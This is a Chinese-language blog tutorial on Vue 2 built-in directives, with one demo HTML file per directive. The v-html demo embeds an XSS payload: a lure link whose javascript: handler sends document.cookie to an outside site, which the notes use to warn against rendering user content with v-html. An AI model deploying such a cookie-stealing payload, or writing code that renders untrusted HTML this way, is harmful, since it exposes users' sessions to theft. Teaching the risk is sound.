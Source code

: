 ```yaml
---
title: 内置指令
date: 2022-08-17 17:24:25
permalink: /pages/8afcf6/
categories:
  - 编程世界
  - Vue-22年重学笔记
  - 基础知识
tags:
  -
---
```


<br><ArticleTopAd></ArticleTopAd>


## ` 笔记 `

本文将笔记统一前置整理：

::: v-pre
我们学过的指令：

- `v-bind:` 单向绑定解析表达式，可简写为 `:xxx`
- `v-model:` 双向数据绑定
- `v-for:` 遍历数组/对象/字符串
- `v-on:` 绑定事件监听，可`简写为 @`
- `v-if:` 条件渲染(动态控制节点是否存在)
- `v-else:` 条件渲染(动态控制节点是否存在)
- `v-show:` 条件渲染(动态控制节点是否展示)
- `v-text` 指令：
  - 作用： 向其所在的节点中渲染文本内容
  - 与插值语法的区别：`v-text 会替换掉节点中的内容，{{xx}}则不会`
- `v-html` 指令：
  - 作用：向指定节点中渲染包含 html 结构的内容。
  - 与插值语法的区别：
    1.  `v-html 会替换掉节点中所有的内容，{{xx}}不会`
    2.  v-html 可以识别 html 结构
  - `严重注意：`v-html 有安全性问题！！！
    1.  在网站上动态渲染任意 html 是非常危险的，容易导致 XSS 攻击。
    2.  一定要在可信的内容上使用 v-html，永远不要在用户提交的内容上使用 v-html。
- `v-cloak` 指令(没有值)：
  - 本质上是一个特殊属性，Vue 示例创建完毕并接管容器后，会删掉 v-cloak 属性。
  - 使用 css 配合 v-cloak 可以解决网络慢时页面展示出{{xx}}插值语法的问题.
- `v-once`
  - v-once 所在节点在初次动态渲染后，就视为静态内容了。
  - 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。
- `v-pre 指令：`
  - 跳过其所在节点的编译过程
  - 可利用它跳过：没有使用指令语法，没有使用插值语法的节点，会加快编译
  :::

## v-text 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令v-text</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
        <div v-text="str"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>'
            }
        });
    </script>
</body>
</html>
```

## v-html 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-html</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="str"></div>
        <div v-html="str2"></div>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
                str:'<h3>你好<h3>',
                str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
            }
        });
    </script>
</body>
</html>
```

## v-cloak 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-cloak</title>
    <style>
        [v-cloak]{
            display: none;
        }
    </style>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <div v-cloak>{{name}}</div>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

    <script type="text/javascript">
        console.log('1');
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                name:'eryajf',
            }
        });
    </script>
</html>
```

## v-once 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-once</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-once>原始的n值为:{{n}}</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```

## v-pre 指令

### ` 代码 `

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>内置指令-v-pre</title>
    <script src="../js/vue.js"></script>
</head>
<body>

    <!-- 准备好一个容器 -->
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>当前的n值为:{{n}}</h2>
        <button @click="n++">点我给n加1</button>
    </div>

    <script type="text/javascript">
        Vue.config.productionTip = false; // 禁用提示
        new Vue({
            el: '#root',
            data: {
                n:1
            }
        });
    </script>
</body>
</html>
```


<br><ArticleTopAd></ArticleTopAd>
